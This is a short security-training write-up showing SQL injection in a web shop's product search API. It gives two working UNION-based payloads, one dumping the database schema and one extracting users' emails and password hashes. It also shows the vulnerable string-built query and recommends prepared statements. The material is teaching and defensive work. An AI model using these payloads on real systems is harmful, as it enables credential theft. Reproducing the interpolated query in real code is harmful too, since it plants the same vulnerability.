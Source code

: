 # SQL Injection - Search API
## How To (Vulnerable Website)
1. Go to vulnerable website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. Verify that it returns the entire DB schema and data in the browser

<img src="../how-to-images/sql-injection-search-dbschema.png" width="700"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to 
`{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. The data returned in the browser includes the users id as the value of `price` and their hashed passwords as value of `deluxePrice`

<img src="../how-to-images/sql-injection-search-users-list.png" width="700"  alt="sql-injection-login-credentials"/>

## How To (Secured Website)
1. Go to secured website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to
   `{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

## Root cause
The root cause of the issue is that raw SQL was being used in the search api (routes/search.ts)
```
`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') 
AND deletedAt IS NULL) ORDER BY name`)
```

## Mitigations
**Use of Prepared Statements:** Use prepared statements with parameterized queries to prevent SQL injection.
This technique is where the database pre-compiles SQL code and stores the results, separating it from data.


Authored by: Elizabeth Mayer

